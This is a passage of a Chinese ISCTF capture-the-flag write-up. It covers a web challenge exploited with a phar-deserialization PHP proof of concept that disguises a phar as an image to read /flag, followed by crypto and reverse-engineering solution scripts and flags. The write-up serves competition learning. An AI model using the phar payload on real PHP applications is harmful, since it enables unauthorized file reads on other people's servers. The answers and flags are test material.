[题目附件](Web/upload/files/www.zip)

下载附件代码审计



Index.php



检查文件是否存在



检查文件类型



在class.php发现漏洞点文件读取函数并经过wakeup函数

猜测反序列化

但无反序列化函数



发现漏洞触发点，file_exists(),确定为phar反序列化

编写poc

```php
<?php
class upload{
 public $filename;
 public $ext;
 public $size;
 public $Valid_ext;
 public function __construct($cmd){
 $this->filename = $cmd;
 $this->ext = ".png";
 $this->size = 1;
 $this->Valid_ext = array("gif", "jpeg", "jpg", "png");
 }
 public function start(){
 return $this->check();
 }
 private function check(){
 if(file_exists($this->filename)){
 return "Image already exsists";
 }elseif(!in_array($this->ext, $this->Valid_ext)){
 return "Only Image Can Be Uploaded";
 }else{
 return $this->move();
 }
 }
 private function move(){
 move_uploaded_file($_FILES["file"]["tmp_name"], "upload/".$this->filename);
 return "Upload succsess!";
 }
 public function __wakeup(){
 echo file_get_contents($this->filename);
 } }
$phar = new Phar('phar.phar');
$phar -> stopBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar -> addFromString('test.txt','test');
$payload = "/flag";
$object = new upload($payload);
$object -> output= 'phpinfo();';
$phar -> setMetadata($object);
$phar -> stopBuffering();
```

生成phar文件，注意phpini中phar.readonly设置为Off，改后缀为jpg

之后文件读取它，?img_name=phar://upload/phar.jpg



>flag:动态flag

## Crypto

### 这是什么古典玩意



```markdown
出题人：mumuzi

学校：四川警察学院

一种简单的编码
```

[题目附件](Crypto/这是什么古典玩意/files/ez_cry.zip)

part1:base64+base32

part2:hex+unicode decode

part3:猪圈密码

>flag:ISCTF{BlueShark_SeemsS0_cute}

### 呜呜呜我的md5脏了



```markdown
出题人：g0at

学校：广东海洋大学

md5被打乱了捏
```
[题目附件](Crypto/呜呜呜我的md5脏了/files/wuwuwuwodemd5zangl.txt)

#### 知识点

1. 栅栏密码
2. Hash爆破

#### 解题步骤

1. 注意观察题目打乱的flag，flag的格式是ISCTF{}，所以 I{i?8Sms??Cd_1?T51??F_1?} 这里是有一层栅栏加密的，好多人傻乎乎的拿这个直接就去爆破，爆半天没出来就攻🐔我嘤嘤嘤

2. 栅栏解密之后得到ISCTF{md5_is_11??1??8???}

3. 接下来就是常规的Hash值爆破了捏

   ```python
   import hashlib
   
   def md5(str):
       m = hashlib.md5()
       m.update(str.encode("utf-8"))
       return m.hexdigest()
   for i in range(100):
       for j in range(100):
           for k in range(1000):
               flag="ISCTF{md5_is_11"+str(i)+"1"+str(j)+"8"+str(k)+"}"
               #print flag
               if str(md5(flag))=="88875458bdd87af5dd2e3c750e534741":
                   print (flag)
                   break
   ```

>flag:ISCTF{md5_is_11451438324}

### 咦 这个密码 怎么怪怪的


```markdown
出题人：g0at

学校：广东海洋大学

简单的base
```

[题目附件](Crypto/咦%20这个密码%20怎么怪怪的/files/base.txt)

#### 知识点

栅栏密码

Base32

#### 解题步骤

1. 这是个有点脑洞的密码题，根据题目可以想到肯定是base系列的密码，ISCTF base32加密后为JFJUGVCG就可以很容易看出这是一个栅栏密码捏

2. 解开栅栏之后直接解Base32即可。

>flag:ISCTF{@_3asy_BASE32!}

### babyrsa


```markdown
出题人:Y0ng

单位安徽工业经济职业技术学院

你真的会rsa吗

flag格式为:blueshark{xxxxxx}
```

[题目附件](Crypto/babyrsa/files/text.py)

分解相邻素数，求出模数n

题目里是相邻的p,q，可以直接解

```python
import gmpy2
from Crypto.Util.number import *

phi = 11998145197184838105291668748328177280207361667546370722759758550200386112478801305683579153942751165452647656673385449297455560085865712968985383490367475984832103238596934094135353170257339614559178443729484992289380330326343473326373076256926770972074683466001586625109364413771716300886242679064050279982192814946404692347546718488456485946902248120569680365122714051066115263800073280766317934165938044443605816890762489369759667593014079143278938847700684310154017484382180324831332527966465023501690149664921975200082428884572496102388046780321762496321487913829155767534947229165886644311869593584303424397016
c = 5664235030100231880171042228110930207351619841860785495929861788749956436657598539033166266920085041056539484368799525891006461921744810454002229224070342640529484554920046100814190479604751667796353636578589439575896923937945959721385425716210546145718343511555866077148390467362495462929359632111674082222918151696522137240478900570056689827712787018876034334301771868147820786419006234529563416734953393480238739362002713175495890402512002469332947145115452344040709333447223824491510840788018172189866931550385951940611161143400804317944263940630025758568750312753125034413169961147691163044924934280636235493483
e = 65537

r, _ = gmpy2.iroot(phi,2)
q = gmpy2.next_prime(r)
p = phi // (q-1) + 1
n = p*q
d = gmpy2.invert(e,phi)
m = pow(c,d,n)
print(long_to_bytes(m))
```

>flag:blueshark{ISctf_i4_interest1ng}

### ezcry



```markdown
出题人：XH

学校：信阳师范学院
```

[题目附件](Crypto/ezcry/files/ezcry.py)

```python
from Crypto.Util.number import *
import gmpy2
seek1 = 31064534580137722018723185060822560614595271317101024671103834301982025703308358280617670492170754990183711198694392500995348706299728134379707212369534471489902209545060592051514886997951859233729914969365008090709174580598044945031296428531946547802954873288796478626936584991410702713951383782424003825610226728036611739090258953115031673157531
seek2 = 24213197274140919663950771475506320265583015671558310318006684746019240494812396672068641326932339831508586851960432536051863105773343184877340119017546817780287117748145293115469964769795237573829418533841547969451268532899237529671580701722254679851009751345719473395857872899046537572034595080443184983155696803469587776652323407147950333716539
seek3 = 44155715757886274586781970607943060213741487009882893164192666734219021562031
n = 17034526359906374675222899048129793386473729727961851733668266173715506273934226618903915327347680201386438684211280871430960401386916021458749533875225149368757915582850037170031336862864220965224712317292408675261654733853726119671544885158743864358155418727967683788352892259519172776767011253307992508658787036093010953540438865556151687132667690293590304094069132122821611257522409132491206241878258953750975043892338280574703622715614385904469190033441247428911800257097240824225432194243602777112774675510936575635571170740329720227162079500469956310746873132644419840611848333802207608652869080821316814006039
e = 65537
c = 6636871845889289821451339461667353441602430792099749101933216934629214305159040913567522609116395485018234259025910227221402350884391969711051377864656945164699379734982178962637190192088596776288873871651609167259167456816094141938735498585327839045360319836147041837569528592447701501104067430848582239927052031661696213986982946173792468753773505681630323945625892041031455025095934790620541499679023777086690062211807019645557781380979957862910047981754126193036968611612056475750787560328372643151874535031184052794483578557248028165948247504989100884012688908781349748818365779371062209169311607720595792421590
s = gmpy2.gcd(seek1,seek3)
k = gmpy2.gcd(seek2,seek3)
p = seek1 // s
q = n // p
d = gmpy2.invert(e,(p-1)*(q-1))
m = pow(c,d,n)
print(long_to_bytes(m))
```

>flag:ISCTF{iiii|||yesyes||7777}

### 韩信点兵


```markdown
出题人：guoql

学校：河南师范大学

韩信在练兵的时候好像遇到了些困难？看看他怎么解决的吧
```

[题目附件](Crypto/韩信点兵/files/hanxindianbing.zip)

解题思路

由加密可知，加密之后的数据为原flag每个字符的16进制进行高低位交换后异或一个key得到的

key为随机生成

故考虑用ISCTF{}的明文字符串进行部分明文攻击

后半部分是用中国剩余定理进行计算得到的

因此先进行中国剩余定理求解加密后字符串，然后利用“I” 字符进行解密得到key

有了key即可全部进行解密

```python
from functools import reduce
def chinese_remainder(n, a):
    sum = 0
    prod = reduce(lambda a, b: a*b, n)
    for n_i, a_i in zip(n, a):
        p = prod // n_i
        sum += a_i * mul_inv(p, n_i) * p
    return sum % prod
def mul_inv(a, b):
    b0 = b
    x0, x1 = 0, 1
    if b == 1: return 1
    while a > 1:
        q = a // b
        a, b = b, a%b
        x0, x1 = x1 - q * x0, x0
    if x1 < 0: x1 += b0
    return x1
with open("output.enc","r") as file:
	temp=[int(i) for i in (file.readline()).split(" ")]
	Keytemp = chinese_remainder(temp[0:2],temp[2:4])
	key = (((ord("I")<<4)&0xff) + ((ord("I")>>4)&0xff))^Keytemp
	print("I",end="")
	while(True):
		try:
			temp=[int(i) for i in (file.readline()).split(" ")]
			flag = chinese_remainder(temp[0:2],temp[2:4])
			print(chr((((flag^key)<<4)&0xff)+(((flag^key)>>4)&0xff)),end="")
		except:
			break
```

>flag:ISCTF{6e0f1ad4-96a6-4b77-867d-0c69cb7ad019}

### 蓝鲨密码



```markdown
出题人：g0at

学校：广东海洋大学

你见过蓝鲨密码吗？
```

[题目附件](Crypto/蓝鲨密码/files/txt)

#### 知识点

Ook！编码

Base16

变表Base64

摩斯电码

#### 解题步骤

1. 将蓝鲨替换成Ook进行解码，得到一段只含有0-9和A-F的编码，明显为Base16https://www.splitbrain.org/services/ook

   ```
   67414E6C686C6438676C396267414E6C686C6438676C396238356438676C39626B5178316B414A326A356C35383439636C6B6B776B5178316B4149776B5178316B414A6A69343569695139636C6B6C326A356C356B5178316B414A326A356C35383439636C6B6C6A6934356969526438676C39626B5178316B4149776B5178316B414A326A356C3567414E6C686B39636C6B6C326A356C3538356438676C39626B5178316B414A326A356C3538356438676C396238356438676C39626B5178316B414A6A69343569694F316A6934356969526438676C39626B5178316B414A6A69343569694F316A69343569695139636C6B6B776B5178316B414A326A356C356B5178316B41497767414E6C686C6438676C396267414E6C6869316A6934356969526438676C3962383439636C6B6C6A69343569694F316A6934356969526438676C396267414E6C686C6438676C3962383439636C6B6C326A356C3567414E6C686B39636C6B6C326A356C35
   ```

2. 解Base16

   ```
   gANlhld8gl9bgANlhld8gl9b85d8gl9bkQx1kAJ2j5l5849clkkwkQx1kAIwkQx1kAJji45iiQ9clkl2j5l5kQx1kAJ2j5l5849clklji45iiRd8gl9bkQx1kAIwkQx1kAJ2j5l5gANlhk9clkl2j5l585d8gl9bkQx1kAJ2j5l585d8gl9b85d8gl9bkQx1kAJji45iiO1ji45iiRd8gl9bkQx1kAJji45iiO1ji45iiQ9clkkwkQx1kAJ2j5l5kQx1kAIwgANlhld8gl9bgANlhi1ji45iiRd8gl9b849clklji45iiO1ji45iiRd8gl9bgANlhld8gl9b849clkl2j5l5gANlhk9clkl2j5l5
   ```

3. 利用Cyberchef的magic可知这是段变表的Base64

   

4. 得到的由BLUESHARKSHARK组成的一段摩斯电码将替换成 -. BLUESHARKSHARK解码即可得到flag

>flag:ISCTF{cute_b1uesharkinf0}

### easy_AES


```markdown
出题人：Nuyoah

学校：河南司法警官职业学院

easy_AES
```

```markdown
第一个密文是异或加密的密文，第二个密文是aes密文
```

[题目附件](Crypto/easy_AES/files/easy_AES.txt)

将base64编码后得到的明文通过python脚本爆破异或秘钥，还换明文，拿到aes key 和 iv 解密密文拿到flag

>flag:ISCTF{Yu_SI00_JIngY4uan@66!}

### ezRSA


```markdown
出题人：g0at

学校：广东海洋大学

小蓝鲨被这道题目难住了，你能帮帮他吗？
```

[题目附件](Crypto/ezRSA/files/ezRSA1.py)

#### 知识点

当e约去公约数后与phi互素

#### 解题步骤

类似题目有很多可以看一下

```python
import gmpy2
from Crypto.Util.number import *


# 当e约去公约数后与phi互素
def decrypt(p, q, e, c):
    n = p * q
    phi = (p - 1) * (q - 1)
    t = gmpy2.gcd(e, phi)
    d = gmpy2.invert(e // t, phi)
    m = pow(c, d, n)
    print(m)
    msg = gmpy2.iroot(m, t)
    print(msg)
    if msg[1]:
        print(long_to_bytes(msg[0]))

p=146061540583135242741006647792481468215928177245453689591382075771990192360040412020479342624228118794110240955451899373848827328177557126556072570082923983968091404980923313006963667391261364191537502509633623502033578910844508808321175673461956149400289968262858691371016246515264343715246136003074155184273
q=106988826778655284666865642844938578070029566283623778317110345394696520999319699165122638213405544697509248818119744714371964212582672270467711234178627339558783803718844973937701655329775612593193896887658613019039808270266901149871250769922857432588126510259997039777751047281603319139760808677732919216899
e=740
c=6282526058961246581872664236584053247822096703448673698014149841099601111078858783085447440545491467659016466697346055841162217815656467685468263870813754625318960798390457353869689600971254126026498299128586642169553158659216998193596000256435504143502966206895545701691216757482393700125791878031903647831939512035110314068235625347074791191183719857770670134500097347113475463330210378392860796906074883251200522628116993249459465350593837432195675595929482809838619649519612607292091411530134831844063986714485104831320923176335931609571205307034732956741442770883207107022828296237748601658720079333177460160664

decrypt(p, q, e, c)
```

>flag:ISCTF{1dedc976-d253-4053-b2f5-557282f41fc5}

### ezzzzzzzzzzzzzzzzzlattice


```markdown
出题人：mxx307

学校：杭州师范大学
```

构造格，格基规约或者爆破h

```python
from Crypto.Util.number import *

# p = 131148416264069715442554230496759742736938545412379308739063578620970899601933069393040058399914832837846516798064092552700060833918180853390272727659093484697978010688987985586265252788275652574860133616611218201116929821314650672396284086999150146696131582879439787426293649995454689326437997314827131760813
# q = 1778685579269332566855607554110314473525573865985817946451299395119360662183340757286447640591830799549
# c = 62180914461381968576556931759104174571191384315505896217389187216647408093035266603163177142284150056461064339661272016909036274629937677693933086937845763132518767220319502557363684214142280509269315832055922111724046179834455884545666677892078288607350292443973100468263187368505561362146133081787722665065
# useful = 90762813092579197308620079699148398530448834933151058690287389281504106578584993896235385730518421254351683583130696798174981976443804388303830004115302286957240868957182987223506389504400331701056519391303209028569625146297676557922827103273034612674655867134520512256604586801869147032917686178882888981071
# w = [[1, 0, useful], [0, 1, c], [0, 0, p]]
# w = matrix(ZZ, w)
# l = w.LLL()
# ee = inverse(-int(l[0][0] % q), q)
# cc = int(l[0][2] % q)
# f = pow(cc, inverse(ee, q - 1), q)
# print(long_to_bytes(int(f)))
# b'flag{a10e2368-ff59-41d5-95c7-ab99d5ee7302}'


import tqdm
from Crypto.Util.number import *
from gmpy2 import *

p = 131148416264069715442554230496759742736938545412379308739063578620970899601933069393040058399914832837846516798064092552700060833918180853390272727659093484697978010688987985586265252788275652574860133616611218201116929821314650672396284086999150146696131582879439787426293649995454689326437997314827131760813
q = 1778685579269332566855607554110314473525573865985817946451299395119360662183340757286447640591830799549
c = 62180914461381968576556931759104174571191384315505896217389187216647408093035266603163177142284150056461064339661272016909036274629937677693933086937845763132518767220319502557363684214142280509269315832055922111724046179834455884545666677892078288607350292443973100468263187368505561362146133081787722665065
useful = 90762813092579197308620079699148398530448834933151058690287389281504106578584993896235385730518421254351683583130696798174981976443804388303830004115302286957240868957182987223506389504400331701056519391303209028569625146297676557922827103273034612674655867134520512256604586801869147032917686178882888981071
h = 2 ** 27
for e in tqdm.tqdm(range(h-1, 2, -2)):
    if gcd(e, q - 1) == 1 and isPrime(e):
        cc = (c - useful * inverse(e, q)) % p
        d = inverse(e, q - 1)
        m = long_to_bytes(pow(cc, d, q))
        if b'flag{' in m:
            print(m)
            break
  # 4%|▎         | 2369979/67108862 [03:23<1:32:36, 11651.82it/s]
# b'flag{a10e2368-ff59-41d5-95c7-ab99d5ee7302}'
```

>flag:动态flag

## Reverse

### SigninReverse


```markdown
出题人：f00001111

学校：大理大学

用`***`打开就能拿到flag了
```

根据提示可以使用IDA、记事本、010等打开，搜索可以直接得到flag

>flag:动态flag

### ezbase


```markdown
出题人：g0at

学校：广东海洋大学

一个简单的 base 加密
```

[题目附件](Reverse/ezbase/files/ezbase.exe)

#### 解题步骤

1. 可以看见对输入的操作为先base64再与结果比较，所以解题只需要将base64字符串提取之后进行解base64即可

   

2. 比如测试输入123，Str1为输入加密后结果，Str2为固定字符串

   

   

3. 而程序前段动态写了一段base64加密程序，反编译以后可以得出是base64加密，到此就是将cmp解密base64即可

   ```c
   #include<stdio.h>
   #include<string.h>
   #include<stdlib.h>
   
   char base64table[] = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";
   
   int findIndex(int Index, char* table)
   {
       if( Index == '=' )
           return 0;
       for(int i = 0; table[i]; ++i)
       {
           if( table[i] == Index )
               return i;
       }
       return -1;
       
   }
   
   void base64Decode(char* input, char* output,char* table)
   {
       int len = strlen(input);
       if( table == NULL)
           table = base64table;
       for(int i = 0, j = 0; i < len; i += 4, j += 3)
       {
           int i1 = findIndex(input[i]    , table);
           int i2 = findIndex(input[i + 1], table);
           int i3 = findIndex(input[i + 2], table);
           int i4 = findIndex(input[i + 3], table);
           output[j] = (i1 << 2) | ((i2 >> 4) & 0x3);
           output[j + 1] = (i2 << 4) | (i3 >> 2);
           output[j + 2] = (i3 << 6) | i4;
       }
       
   }
   
   int main()
   {
       char flag[100] = {};
       char cmp[] = {0x38, 0x0f, 0x1a, 0x0a, 0x3b, 0x40, 0x16, 0x4c, 0x7a, 0x2a, 0x20, 0x56, 0x00, 0x1b, 0x1f, 0x33, 0x55, 0x05, 0x38, 0x10, 0x30, 0x24, 0x05, 0x20, 0x31, 0x58, 0x61, 0x53, 0x35, 0x24, 0x30, 0x25, 0x24, 0x23, 0x52, 0x05, 0x36, 0x2a, 0x27, 0x18, 0x30, 0x1f, 0x23, 0x70, 0x56, 0x36, 0x24, 0x10, 0x06, 0x52, 0x03, 0x13, 0x50, 0x65, 0x5f, 0x5f, 0};
       char key[] ="bbbbase64";
       for(int i = 0; i < 56; ++i)
       {
           cmp[i] ^= key[i % 9];
       }
   
       
       base64Decode(cmp, flag, 0);
       
       printf("%s\n", flag);
       getchar();
   }
   
   ```

>flag:ISCTF{34pxo9UsVkDWRNu5XTCXWuLq3BQEm1kwzo}

### 坤坤的csgo邀请



```markdown
出题人：swa9

学校：平顶山学院

坤坤邀请你打see♂ass♂go。
```

[题目附件](Reverse/坤坤的csgo邀请/files/re.zip)

方法1、使用010修复UPX壳，再拿UPX脱壳机直接脱壳。然后拿IDA直接找flag

方法2、直接使用OD调试，定位关键点，破解程序

方法3、OD手动脱壳，然后IDA直接找flag

>flag:ISCTF{Kun._Ku..n_loves_you_.s0_m.uc.h.}

### base64


```markdown
出题人：pl1rry

学校：成都东软学院
```

[题目附件](Reverse/base64/files/base64.exe)

查看算法,不难发现是Base64编码

算法大体没变,但进行了换表操作

编写脚本或用CyberChef解码即可得出flag

>flag:ISCTF{159e34224c00ead2d3a039d32084ee50}

### easyVM



```markdown
出题人：pl1rry

学校：成都东软学院
```

[题目附件](Reverse/easyVM/files/EasyyyyyyVM.exe)

Opcode大致有3个

1 ==> 0x1: 进行加法操作

2 ==> 0x4: 进行减法操作

3 ==> 0x5: 进行异或操作

字节码格式是: 操作符号|操作下标|操作数

Opcode通过动态调试dump出来

编写脚本，打出伪指令。发现就是单纯的加减异常运算。

解密流程不难得出。

1.   倒序解密

2.   加变减，减变加,异或不变

将打印出来的指令复制下来，在倒个序。

得出flag

```c
#include <stdio.h>
#include <string>
#include <format>

unsigned char opcode[] = {
	0x04, 0x0f, 0x31, 0x05, 0x03, 0x95, 0x04, 0x02, 0x59, 0x05, 0x16, 0xf5, 0x01, 0x15, 0x22, 0x01,
	0x00, 0x8b, 0x05, 0x14, 0x40, 0x01, 0x0f, 0xf7, 0x04, 0x00, 0x92, 0x05, 0x0e, 0x7c, 0x04, 0x08,
	0x21, 0x05, 0x02, 0xd2, 0x01, 0x1e, 0x3d, 0x01, 0x1b, 0xeb, 0x04, 0x0a, 0x27, 0x01, 0x14, 0x04,
	0x01, 0x08, 0x10, 0x04, 0x10, 0x92, 0x04, 0x14, 0x59, 0x04, 0x00, 0xec, 0x01, 0x16, 0x50, 0x04,
	0x15, 0xc3, 0x04, 0x06, 0xe4, 0x05, 0x03, 0xc6, 0x01, 0x00, 0x05, 0x05, 0x04, 0x03, 0x04, 0x04,
	0xa9, 0x05, 0x05, 0xe6, 0x05, 0x17, 0xad, 0x04, 0x12, 0xe4, 0x05, 0x15, 0x0a, 0x05, 0x0a, 0x33,
	0x01, 0x02, 0x1e, 0x05, 0x1b, 0x22, 0x01, 0x19, 0xf0, 0x01, 0x19, 0xe7, 0x04, 0x1d, 0xba, 0x05,
	0x0d, 0x01, 0x05, 0x0b, 0x20, 0x05, 0x0b, 0x84, 0x01, 0x10, 0xd9, 0x01, 0x17, 0xe5, 0x01, 0x17,
	0xbe, 0x04, 0x18, 0x19, 0x04, 0x0d, 0x72, 0x04, 0x13, 0x32, 0x05, 0x1e, 0x21, 0x04, 0x1e, 0xb6,
	0x04, 0x0c, 0x0c, 0x01, 0x10, 0x65, 0x05, 0x08, 0xd9, 0x04, 0x13, 0x2d, 0x01, 0x0a, 0xe4, 0x01,
	0x04, 0x73, 0x05, 0x09, 0xfe, 0x05, 0x0d, 0x0a, 0x04, 0x1f, 0x5f, 0x01, 0x11, 0x61, 0x01, 0x18,
	0xbb, 0x04, 0x0e, 0xd4, 0x04, 0x1f, 0xb2, 0x01, 0x17, 0x24, 0x01, 0x0c, 0x19, 0x04, 0x15, 0x84,
	0x05, 0x15, 0xce, 0x01, 0x1a, 0xbb, 0x04, 0x18, 0x0f, 0x05, 0x02, 0x45, 0x04, 0x1b, 0x91, 0x04,
	0x14, 0x89, 0x01, 0x08, 0xca, 0x05, 0x09, 0x6e, 0x05, 0x1c, 0x2b, 0x01, 0x1e, 0xf7, 0x05, 0x1d,
	0x39, 0x01, 0x1a, 0xbc, 0x05, 0x0e, 0xcd, 0x05, 0x1a, 0x4a, 0x04, 0x06, 0xdc, 0x05, 0x10, 0xd3,
	0x04, 0x0b, 0x98, 0x01, 0x04, 0xc1, 0x01, 0x00, 0xce, 0x01, 0x18, 0xf7, 0x04, 0x0f, 0xc4, 0x05,
	0x19, 0xf2, 0x04, 0x0f, 0x0f, 0x01, 0x04, 0x06, 0x01, 0x17, 0x0f, 0x05, 0x07, 0x65, 0x05, 0x1d,
	0x16, 0x04, 0x10, 0xb9, 0x05, 0x18, 0x68, 0x01, 0x17, 0x71, 0x01, 0x13, 0x96, 0x01, 0x13, 0x1b,
	0x04, 0x1d, 0xdc, 0x04, 0x18, 0x57, 0x01, 0x17, 0x8f, 0x05, 0x09, 0x49, 0x04, 0x06, 0xc0, 0x01,
	0x0d, 0x9c, 0x01, 0x05, 0x97, 0x04, 0x00, 0x6b, 0x01, 0x1e, 0x1f, 0x04, 0x19, 0xab, 0x04, 0x10,
	0x6a, 0x05, 0x01, 0xf1, 0x05, 0x1b, 0x65, 0x05, 0x09, 0xaa, 0x01, 0x1b, 0xb0, 0x04, 0x01, 0x12,
	0x04, 0x1c, 0x4c, 0x01, 0x02, 0x9b, 0x05, 0x13, 0x0e, 0x01, 0x08, 0x82, 0x01, 0x1e, 0x07, 0x04,
	0x0c, 0xb7, 0x05, 0x10, 0x6f, 0x04, 0x00, 0x72, 0x01, 0x1f, 0xad, 0x01, 0x1e, 0x07, 0x05, 0x0d,
	0x92, 0x04, 0x01, 0xcd, 0x04, 0x18, 0xe8, 0x01, 0x0b, 0x43, 0x01, 0x04, 0xd7, 0x04, 0x1c, 0xb0,
	0x76, 0x81, 0x1d, 0x6e, 0xad, 0x23, 0xd5, 0x63, 0xc8, 0xfe, 0x2d, 0x00, 0x3e, 0x1c, 0x1f, 0x01,
	0x01, 0x00, 0x00, 0x00, 0x58, 0xe7, 0x76, 0x00, 0xa8, 0xf7, 0x76, 0x00, 0xe5, 0x23, 0xd5, 0x63,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xe0, 0xfd, 0x7e, 0x00, 0x70, 0xaa, 0x8d,
	0x01, 0x00, 0x00, 0x00, 0xe2, 0x8e, 0xa7, 0x00, 0x94, 0xfe, 0x2d, 0x00, 0x1c, 0x53, 0x7f, 0xee,
	0x04, 0xff, 0x2d, 0x00, 0x05, 0x24, 0x1f, 0x01, 0x35, 0xe1, 0xe7, 0x62, 0x00, 0x00, 0x00, 0x00,
	0xd4, 0xfe, 0x2d, 0x00, 0x3d, 0x34, 0x37, 0x75, 0x00, 0xe0, 0xfd, 0x7e, 0x14, 0xff, 0x2d, 0x00,
	0x02, 0x98, 0x77, 0x77, 0x00, 0xe0, 0xfd, 0x7e, 0xf7, 0x5b, 0x81, 0x77, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0xe0, 0xfd, 0x7e, 0x00, 0x00, 0x00, 0x00, 0x7f, 0x7c, 0x5b, 0x77,
	0x00, 0x00, 0x00, 0x00, 0xe0, 0xfe, 0x2d, 0x00, 0x00, 0x00, 0x00, 0x00, 0xff, 0xff, 0xff, 0xff,
	0xcd, 0x4d, 0x7b, 0x77, 0xa3, 0x62, 0xda, 0x00, 0x00, 0x00, 0x00, 0x00, 0x2c, 0xff, 0x2d, 0x00,
	0xd5, 0x97, 0x77, 0x77, 0xc6, 0x1c, 0x1f, 0x01 };


void enc() {
	char input[] = {
	0x65, 0xe2, 0x57, 0x60, 0xce, 0x1e, 0xe1, 0x5c, 0x4b, 0x4b, 0x23, 0x6d, 0x8c, 0xc2, 0xbc, 0x58,
	0x84, 0x92, 0x7e, 0x8c, 0x43, 0xdb, 0x15, 0x71, 0x97, 0x4a, 0xe3, 0xc4, 0x1f, 0x7c, 0xc3, 0xfd };
	input[28] += 176;
	input[4] -= 215;
	input[11] -= 67;
	input[24] += 232;
	input[1] += 205;
	input[13] ^= 146;
	input[30] -= 7;
	input[31] -= 173;
	input[0] += 114;
	input[16] ^= 111;
	input[12] += 183;
	input[30] -= 7;
	input[8] -= 130;
	input[19] ^= 14;
	input[2] -= 155;
	input[28] += 76;
	input[1] += 18;
	input[27] -= 176;
	input[9] ^= 170;
	input[27] ^= 101;
	input[1] ^= 241;
	input[16] += 106;
	input[25] += 171;
	input[30] -= 31;
	input[0] += 107;
	input[5] -= 151;
	input[13] -= 156;
	input[6] += 192;
	input[9] ^= 73;
	input[23] -= 143;
	input[24] += 87;
	input[29] += 220;
	input[19] -= 27;
	input[19] -= 150;
	input[23] -= 113;
	input[24] ^= 104;
	input[16] += 185;
	input[29] ^= 22;
	input[7] ^= 101;
	input[23] -= 15;
	input[4] -= 6;
	input[15] += 15;
	input[25] ^= 242;
	input[15] += 196;
	input[24] -= 247;
	input[0] -= 206;
	input[4] -= 193;
	input[11] += 152;
	input[16] ^= 211;
	input[6] += 220;
	input[26] ^= 74;
	input[14] ^= 205;
	input[26] -= 188;
	input[29] ^= 57;
	input[30] -= 247;
	input[28] ^= 43;
	input[9] ^= 110;
	input[8] -= 202;
	input[20] += 137;
	input[27] += 145;
	input[2] ^= 69;
	input[24] += 15;
	input[26] -= 187;
	input[21] ^= 206;
	input[21] += 132;
	input[12] -= 25;
	input[23] -= 36;
	input[31] += 178;
	input[14] += 212;
	input[24] -= 187;
	input[17] -= 97;
	input[31] += 95;
	input[13] ^= 10;
	input[9] ^= 254;
	input[4] -= 115;
	input[10] -= 228;
	input[19] += 45;
	input[8] ^= 217;
	input[16] -= 101;
	input[12] += 12;
	input[30] += 182;
	input[30] ^= 33;
	input[19] += 50;
	input[13] += 114;
	input[24] += 25;
	input[23] -= 190;
	input[23] -= 229;
	input[16] -= 217;
	input[11] ^= 132;
	input[11] ^= 32;
	input[13] ^= 1;
	input[29] += 186;
	input[25] -= 231;
	input[25] -= 240;
	input[27] ^= 34;
	input[2] -= 30;
	input[10] ^= 51;
	input[21] ^= 10;
	input[18] += 228;
	input[23] ^= 173;
	input[5] ^= 230;
	input[4] += 169;
	input[4] ^= 3;
	input[0] -= 5;
	input[3] ^= 198;
	input[6] += 228;
	input[21] += 195;
	input[22] -= 80;
	input[0] += 236;
	input[20] += 89;
	input[16] += 146;
	input[8] -= 16;
	input[20] -= 4;
	input[10] += 39;
	input[27] -= 235;
	input[30] -= 61;
	input[2] ^= 210;
	input[8] += 33;
	input[14] ^= 124;
	input[0] += 146;
	input[15] -= 247;
	input[20] ^= 64;
	input[0] -= 139;
	input[21] -= 34;
	input[22] ^= 245;
	input[2] += 89;
	input[3] ^= 149;
	input[15] += 49;
	printf("%32s", input);
}
int main()
{
	enc();
	getchar();

	int i = 0,idx = 0, opreand = 0;
	while (true) {
		char* tmp;
		idx = opcode[i + 1];
		opreand = opcode[i + 2];
		

		switch (opcode[i]){
		case 1:
			printf("input[%d] -= %d;", idx, opreand);
			break;
		case 4:
			printf("input[%d] += %d;", idx, opreand);
			break;
		case 5:
			printf("input[%d] ^= %d;", idx, opreand);
			break;
		default:
			getchar();
			break;
		}
		printf("\n");
		i += 3;
	}
}
```

>flag:ISCTF{b0b3eaa9783f619e11b0a4064025018a}

### 5121-babyre


```markdown
出题人：tacooo0o

学校：西安邮电大学

BCD
```

[题目附件](Reverse/5121-babyre/files/5121-babyre.zip)

5121编码，可以找到5121码表进行解密，或通过算法进行逆向

5121码码表



0001 1000 1111 0111 1110 0010 1100 0011 0000 1101

>flag:ISCTF{1594826307}

### babyopcode



```markdown
出题人：tacooo0o

学校：西安邮电大学

不会就猜呗
```

[题目附件](Reverse/babyopcode/files/xxx.zip)

简单vm逆向分析，逻辑很直白，主要的操作只有异或，可以找到异或操作为异或0x12

在check的时候enc_flag进行了按位取反操作，换回来即可



>flag:ISCTF{Vm_so1s_3asy}

### 开摆re


```markdown
出题人：啊罗小黑战记停更了

学校：焦作大学

罗小黑很早以前在小黄鱼买到了一款好玩的游戏，但是卖家给的激活码忘记了，卖家也已经注销了小黄鱼账户，你能帮小黑获得这个游戏的激活码吗？（请用 ISCTF{ } 包裹flag提交）
```

[题目附件](Reverse/开摆re/files/keygen.exe)

### 请送我一个绿茶


```markdown
出题人：thestar

学校：成都东软学院

一个标准的pyd逆向，标准的xxtea加密
```

[题目附件](Reverse/请送我一个绿茶/files/fujian.txt)

[题目附件](Reverse/请送我一个绿茶/files/green_tea.exe)

首先利用pyinstxtractor

python pyinstxtractor.py  x.exe

然后找到对应的pyc文件

在线反编译网站https://tool.lu/pyc/

或者uncompyle6 (注意python版本不能高于3.8)

然后反编译pyc

>flag:ISCTF{4444444488888888}

### final



```markdown
出题人：final

学校：成都东软学院
```

[题目附件](Reverse/final/files/final.exe)

经过分析，发现代码被混淆,难以正常阅读


 
混淆方式也很简单，就是简单的代码块切割。

```text
源指令
push 下句代码块指针
ret
```


可以选择手动记录修复，也可以选择编写脚本去混淆。考虑到此题很容易就能确定代码块的位置，所以仅仅只需要一个反汇编框架就能完成这项任务。这里我选用了**capstone**。混淆代码都在名为easy的区段，先dump出来，并记录相关信息，供我们后续使用。



初始化代码如下



每次遍历仅仅只需解析2条汇编指令，一条是源指令，另一条确定下一个代码块，记录好相关信息，剩余的工作就是修复JCC了



